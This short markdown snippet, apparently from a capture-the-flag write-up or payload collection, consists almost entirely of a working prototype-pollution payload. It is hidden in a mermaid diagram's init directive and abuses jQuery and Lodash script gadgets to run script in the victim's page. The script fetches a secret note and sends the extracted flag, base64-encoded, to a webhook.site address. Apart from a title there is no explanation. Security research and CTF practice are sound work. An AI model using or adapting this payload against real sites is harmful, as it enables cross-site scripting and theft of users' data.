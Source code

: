 ### Prototype Pollution in mermaid JS + jQuery + Lodash Script Gadget

```js
```mermaid

%%{init: { '__proto__': {'sourceURL': '\u2028\u2029fetch(`https://hackus.xyz/s/secret-note`).then(x=>x.text()).then( x=> fetch(`https://webhook.site/***?flag=`+btoa(x.substr(x.indexOf(`CTF-BR`),100))))','dataType':'script','url':['https://vimeo.com/api/oembed.json?url=https%3A//vimeo.com/286898202&width=480&height=360&callback=_.template']}} }%%
sequenceDiagram
Alice->>Bob: Hi Bob
Bob->>Alice: Hi Alice

.```

```
